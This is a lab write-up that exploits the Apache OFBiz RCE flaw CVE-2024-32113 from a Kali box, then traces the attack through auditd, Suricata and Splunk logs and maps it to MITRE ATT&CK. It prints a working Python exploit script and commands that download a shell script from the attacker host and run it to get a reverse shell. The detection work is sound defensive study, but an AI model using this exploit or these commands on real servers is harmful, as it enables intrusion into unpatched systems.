# <u>Scenario 5</u>: 
CVE-2024-32113 [Apache OFBiz](https://ofbiz.apache.org/) RCE flaw affecting versions before 18.12.13.

## <u>Lab Setup</u>:
The lab consists of three virtual machines in the following topology


      ____            ____              ____
     ||__||          ||__||            ||__||  
	 [ -= ]  ----->  [ -= ]    ----->  [ -= ]
     ======          ======            ======
     kali            ubuntu            SIEM
     10.10.230.*     10.10.230.*       192.168.228.*
                     192.168.228.*
                     
                        
Apache OFBiz version 17.12 is installed on the ubuntu server, which has collects telemetry through Suricata and Splunk Universial Forwarder, and sends it to the SIEM machine which is running Splunk.  

OFBiz 17.12 requires [JDK version 8](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).  After downloading and installing JDK 8, check and set it with:

```
$ update-java-alternatives --version
$ update-java-alternatives --set java-1.8.0-openjdk-amd64
```


To install and load OFBiz 17.12:

```
$ git clone https://github.com/apache/ofbiz-framework.git
$ cd ofbiz-framework
$ git checkout release17.12

$ ./gradlew loadAll
$ ./gradlew ofbiz
```

We will be attacking OFBiz on the Ubuntu machine from the Kali machine on an external network.  [Mr-xn](https://github.com/Mr-xn/CVE-2024-32113) demonstrates a POC for CVE-2024-32113 on his github page. I wrote the following python exploit to make execution easier:

```
import requests
import urllib3
import sys
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len(sys.argv) != 3:
    print("python3 exploit.py <ip> <cmd>")

ip = sys.argv[1]
cmd = sys.argv[2]

url = f"https://{ip}:8443/webtools/control/forgotPassword;/ProgramExport"

proxies = {"http":"127.0.0.1:8080",
           "https":"127.0.0.1:8080"
           }

headers = {
    "Host": "127.0.0.1:8443",
    "Content-Type": "application/x-www-form-urlencoded"
}
exploit = f"throw new Exception('{cmd}'.execute().text);"
encoded = "".join(f"\\u{ord(c):04x}" for c in exploit)
data = f"groovyProgram={encoded}"

response = requests.post(
    url,
    headers=headers,
    data=data,
    # proxies=proxies,
    verify=False  # equivalent to curl -k
)

print("Status:", response.status_code)

html = response.text

match = re.search(
    r"java\.lang\.Exception:\s*(.*?)</p>",
    html,
    re.DOTALL | re.IGNORECASE
)

if match:
    exception_text = match.group(1).strip()
    print(exception_text)
else:
    print("No exception found")
```

## <u>Attack Behavior</u>:

An attacker conducts recon against the OFBiz application, then exploits the RCE vulnerability to download and execute a reverse shell. Initial reconnaissance is conducted on the victim.

```
$ python3 post.py 10.10.230.129 "wget 10.10.230.128/shell.py -O /tmp/shell.py"
$ python3 post.py 10.10.230.129 "python3 /tmp/shell.py"
```

## <u>Telemetry Sources</u>:
<ol>
	<li> auditd
		<ul>
			<li> EXECVE / PROCTITLE
			<li> PID/PPID
			<li> UID
			<li> Executed Commands / Arguments
		</ul>
	<li> Suricata
		<ul>
			<li> src/dest IP
			<li> dest port
		</ul>
	<li> OFBiz.log
		<ul>
			<li>ControlEventListener
			<li>ControlServelet
			<li>VisitHandler
			<li>RequestHandler
		</ul>
	</li>
		
</ol>


## <u>Attack Simulation</u>: 

Lab Goal: Detect abnormal command line activity and trace back to signs of initial compromise.

The first phase involves the attacker conducting an nmap scan of the network. 

An initial scan 

```
$ nmap 10.10.230.129
```
shows port 8443 open, so we look at it more in depth with

```
$ nmap 10.10.230.129 -A -p 8443
```



We can see from the ssl-cert that the port is running Apache OFBiz.  Navigating to the page, we are met with a 500 error.  



This is to be expected: as the error says, our domain is not accepted by default.  We can bypass this by setting the host header to localhost with a tool like Burp Suite:


	
Using our script above, we can execute commands on the remote host:



After some experimenting, I successfully downloaded a python script to the remote box and got a reverse shell.



On entry, I executed commands like whoami, hostname, ip a, arp -a, and created a suspicious file to simulate initial reconnaissance.

## <u>Detection Chain</u>:

For this scenario, our suspicious file was discovered by a user and reported to the security team. Searching our logs for it, we find one event: 


	
Pivoting around the time, we can find the PID, PPID, UID and more.


	
Looking for other processes spawned by the PPID and attempting to find the parent process itself:

```
index=main sourcetype=auditd
(ppid=7905 OR pid=7905) 
| table _time  pid ppid UID exe 
| sort by _time
```

we find our telltale enumeration commands and four processes with IDs that match our parent process ID of 7905.  Three python processes and dash: 


Looking more closely at the processes with ID 7905, we can see that its audit event ID number is 5726. Looking at other capture types with this event ID, we find a hexadecimal encoded command


which is our shell execution.  Pivoting on this file, we see that it was curled from an external website.


Now that we have our curl command, I tried searching for the curl user agent in the suricata logs with no luck.  As this is coming from our ubuntu machine back out to our attacking box on the 10.10.230.* network, we need to check our sensor alignment.

As it turns out, suricata was only listening on the 192.168.228.* network. I needed to add the external network interface by adding the following lines to the /etc/suricata/suricata.yaml file under the af-packet header:

```
- interface ens38
  defrag: yes
```

I re-ran my attack chain to get a new reverse shell and searched for the external network and shell.py again.  This time I had results from suricata:





Now we can see the source IP of the curl command was our kali attack box. Searching for traffic from this IP we find a large number of destination ports.


	
In fact, counting the stats by destination port, we see every single port has been hit.  This is consistent with our nmap port scan.

Looking closer at the traffic from our kali attack box:

```
index=main sourcetype="suricata:json" src_ip="10.10.230.128" 
| stats count by dest_port 
| sort count desc
```



We see a number of DNS lookups, and some connections to port 8443.

Double checking what's running on that port with 
```
$ ss -tulpn | grep LISTEN
```


	
it's our OFBiz application. The traffic is recorded as TLS, which is consistent with our nmap results for the application.  Because the traffic is encrypted, here again, our trail ran cold. We can see some activity on port 8443, but can't tell that it's illegitimate.

The OFBiz logs show traffic to the forgotPassword control and the ProgramExport endpoint that we used in our exploit, but there is little further to identify our attack signature. Possibly the null visitor found in the cookie is another indicator, but more experimentation with legitimate traffic is required.



## <u>Detection Summary</u>:

From a suspicious file we were able to identify the process id that created it and the parent process id, which allowed us to identify what appears to be evidence of reconnaissance on our server. The auditd logs showed us the hex-encoded command used to execute a python script which we were able to trace back to its download from an external IP address. We identified a gap in our telemetry and corrected it by allowing Suricata to listen on our external network.  Rerunning the attack showed evidence of port scanning from the external IP address and, excluding DNS and DHCP traffic, a majority of external traffic was on port 8443, where our OFBiz application is listening. Because the traffic was encrypted, we were unable to further identify the attack signature. 

|Attack Phase	|Telemetry Source	|Visibility 
| --------------|-------------------|---------- 
|External Recon	(nmap scan)	|Suricata	| Network
|Web App Enumeration|Suricata |	Network (Limited due to TLS)
|Exploit attempt on vulnerable endpoint	|OFBiz logs (not ingested into Splunk)	| Host 
|Tool Staging	|auditd, Suricata	|Host / Network
|Command execution (curl)	|auditd	|Host
|Post-Exploit Recon	|auditd	|Host
|Suspicious File Creation	|auditd	| Host

## <u>MITRE ATT&CK Mapping</u>:

|Tactic	|Technique	|  Evidence|
| ----- | ----------|----------|
|Reconnaissance|	T1046 Network Service Scanning| Suritica detected full port sweep
|Reconnaissance| T1595 Active Scanning | Enumeration of port 8443
|Initial Access| T1190 Exploit Public-Facing Application | CVE-2024-32113 OFBiz RCE|
|Execution|T1059.006 Python|Python interpreter spawned to execute staged script|
|Persistence|T1105 Ingress Tool Transfer | curl used to download tool from external host|
| Discovery| T1082 / T1016 System Information/Netowrk Discovery| Execution of whoami, hostname, ip a, arp -a